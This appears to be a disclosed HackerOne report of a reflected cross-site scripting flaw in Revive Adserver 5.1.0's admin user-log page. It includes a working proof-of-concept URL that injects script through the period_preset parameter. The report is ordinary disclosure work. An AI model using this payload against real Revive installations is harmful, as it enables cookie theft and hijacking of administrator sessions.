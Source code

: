 # Reflected XSS on /admin/userlog-index.php

## Report Details
- **Report ID**: 1083231
- **URL**: https://hackerone.com/reports/1083231
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-01-21T16:36:57.233Z
- **Disclosed**: 2021-01-26T14:26:57.069Z

## Reporter
- **Username**: solov9ev
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: revive_adserver

## Vulnerability Information
I found a reflected XSS attack on `/admin/userlog-index.php`. 

Revive-Adserver  version is `revive-adserver-5.1.0`.

- Go to `http://revive-adserver.loc/admin/userlog-index.php?advertiserId=0&publisherId=0&period_preset=all_events%3C/script%3E%3Cscript%3Ealert(document.domain)%3C/script%3E%3Cscript%3E&period_start=&period_end=&setPerPage=10`
- Malicious code executed

{F1166698}

Rendered response from server:

{F1166701}

## Impact

With this vulnerability, an attacker can for example steal users cookies or redirect users on malicious website.

## Attachments
- _________________2021-01-21_19-31-55.png
- _________________2021-01-21_19-32-40.png
